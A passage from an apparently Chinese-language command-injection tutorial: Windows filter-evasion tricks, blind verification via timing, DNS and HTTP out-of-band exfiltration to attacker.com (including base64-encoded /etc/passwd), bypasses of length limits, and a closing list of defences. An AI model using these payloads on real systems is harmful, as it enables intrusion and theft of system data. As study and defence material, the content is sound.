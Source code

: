 ### Windows

```bash
who""a"m"i  # 双引号
who^ami  # 转义符
set var=whoami && %var%  # 环境变量
```

### 无回显验证

```bash
# 1. 时间延迟判断(不出网)
ping -c 4 127.0.0.1 # Linux
timeout 4 # Windows

# 2. DNS外带数据(出网)
curl http://attacker.com/`whoami`.domain
nslookup `whoami`.attacker.com

# 3. HTTP请求外带(出网)
curl http://attacker.com/$(cat /etc/passwd | base64)
wget http://attacker.com/$(id|base64)

# 4. 文件写入输出(不出网)
whoami > /var/www/html/result.txt
id | tee /tmp/result
```

### 其他限制绕过

```bash
# 将命令写入文件再执行（绕过长度限制）
echo "whoami" > /tmp/a
sh /tmp/a

# 通过环境变量存储命令（绕过次数限制）
export cmd="whoami"
$cmd
```

## 防御

1. 严格的输入过滤（危险函数，连接符号等等）
2. 使用安全的方法或者参数化查询
3. 保持权限最小化原则
4. 禁用危险函数（php.ini）
5. 使用容器隔离（docker）
6. 网络层：使用WAF，网段隔离，非必须服务器不出网
7. 应用层：启用**RASP（运行时应用自我保护），但这个可以绕过，调用比拦截类更底层的类**
8. 安全开发生命周期（SDLC）与监控、审计与响应